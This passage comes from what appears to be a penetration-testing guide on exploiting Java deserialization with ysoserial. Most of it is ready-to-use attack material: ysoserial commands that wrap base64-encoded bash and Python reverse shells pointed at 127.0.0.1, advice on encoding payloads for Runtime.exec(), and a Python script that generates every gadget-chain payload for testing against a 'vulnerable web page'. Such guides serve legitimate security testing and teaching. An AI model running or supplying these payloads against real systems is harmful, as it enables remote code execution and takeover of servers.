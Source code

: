 ```bash
### Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
### Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```

When creating a payload for **java.lang.Runtime.exec()** you **cannot use special characters** like ">" or "|" to redirect the output of an execution, "$()" to execute commands or even **pass arguments** to a command separated by **spaces** (you can do `echo -n "hello world"` but you can't do `python2 -c 'print "Hello world"'`). In order to encode correctly the payload you could [use this webpage](http://www.jackson-t.ca/runtime-exec-payloads.html).

Feel free to use the next script to create **all the possible code execution** payloads for Windows and Linux and then test them on the vulnerable web page:

```python
import os
import base64
 
# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
    for payload in payloads:
        final = cmd.replace('REPLACE', payload)
        print 'Generating ' + payload + ' for ' + name + '...'
        command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
        result = command.read()
        command.close()
        encoded = base64.b64encode(result)
        if encoded != "":
            open(name + '_intruder.txt', 'a').write(encoded + '\n')
 
generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```

#### serialkillerbypassgadgets

You can **use** [**https://github.com/pwntester/SerialKillerBypassGadgetCollection**](https://github.com/pwntester/SerialKillerBypassGadgetCollection) **along with ysoserial to create more exploits**. More information about this tool in the **slides of the talk** where the tool was presented: [https://es.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class?next\_slideshow=1](https://es.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class?next\_slideshow=1)
